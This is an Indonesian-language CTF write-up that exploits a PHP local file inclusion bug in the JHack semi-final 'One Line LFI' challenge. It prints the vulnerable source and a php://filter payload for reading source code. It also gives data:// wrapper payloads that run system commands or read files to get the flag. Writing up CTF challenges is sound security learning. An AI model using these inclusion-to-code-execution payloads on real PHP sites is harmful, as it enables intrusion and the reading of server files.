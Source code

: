 # Write Up One Line LFI Challenge JHack Semi Final CTF

Pada saat kompetisi kita diberikan source dan penampakanya seperti ini

![](/JHackCTF/LFI/img/index.png)


Mari kita petakan source codenya.

```
<?php 
if(!isset($_GET['file'])){
    die(show_source(__FILE__));
}else{
    $file = $_GET['file'] .".php";
```

Pada kode tersebut, Mengecek apa ada sebuah input dengan param `file` jika tidak ada kode akan berhenti dan menampilkan isi kodenya.

```

if(strpos($file, "ftp") !== False){ die('No Cheat!');}
if(strpos($file, "http") !== False){ die('Hmmm No Cheat!');}
if(strpos($file, "https") !== False){ die('No Fucking Cheat!');}

```

Pada kode tersebut mengecek apakah inputan kita mengandung `ftp/http/https` Jika iya program akan berhenti dan mengeluarkan pesan.

```
include($file);
```

Pada kode tersebut inputan kita akan di include jika sudah lolos tiap pengecekan yang ada.


Oke secara jelas kode ini vuln ke LFI seperti judulnya, Namun pada variable $file inputan kita akan mendapat suffix `.php` jadi kita tidak bisa melakukan `../../../../../../` karena akan ketambahan `.php`. Namun saya bisa mencoba melakukan. Wrapper php filter.


`?file=php://filter/convert.base64-encode/resource=index` Woops dan success.

```
PD9waHAgCmlmKCFpc3NldCgkX0dFVFsnZmlsZSddKSl7CiAgICBkaWUoc2hvd19zb3VyY2UoX19GSUxFX18pKTsKfWVsc2V7CiAgICAkZmlsZSA9ICRfR0VUWydmaWxlJ10gLiIucGhwIjsKCgppZihzdHJwb3MoJGZpbGUsICJmdHAiKSAhPT0gRmFsc2UpeyBkaWUoJ05vIENoZWF0IScpO30KaWYoc3RycG9zKCRmaWxlLCAiaHR0cCIpICE9PSBGYWxzZSl7IGRpZSgnSG1tbSBObyBDaGVhdCEnKTt9CmlmKHN0cnBvcygkZmlsZSwgImh0dHBzIikgIT09IEZhbHNlKXsgZGllKCdObyBGdWNraW5nIENoZWF0IScpO30KCmluY2x1ZGUoJGZpbGUpOwoKfQo=
```

Wooooooo bisa, Dan saat di decode :( Tidak menemukan apa apa selain hanya source dari index tersebut. Setelah searching kita bisa mengunakan wrapper `data://` Untuk melakukan RCE? Hmm mari kita coba.


Pertama saya mengunakan payload seperti ini `data://text/plain,<?=phpinfo()?>//` Untuk menampilkan phpinfo dannnn Success.

![](/JHackCTF/LFI/img/go.png)

Dan kita tinggal modify payload kita menjadi seperti ini 
 - `data://text/plain,<?=system('ls')?>//` Untuk Melihat isi dir dan mendapat ada file `flag` 
 - `data://text/plain,<?=system('cat flag')?>//` Dan mendapatkan `flag`

Dam didapatkan flagnya. Namun itu jika system shellnya di enable? Namun jika tidak? Kita bisa mengexec kode php untuk mendapatkan flagnya.

 - `data://text/plain,<?=print_r(scandir(getcwd()))?>//` Ini fungsinya sama seperti `ls` kode `getcwd()` Untuk mendapatkan lokasi file tersebut.
 - `data://text/plain,<?=file_get_contents('flag')?>//` Ini sama dengan `cat`



Sekian untuk Write Up Kali ini!  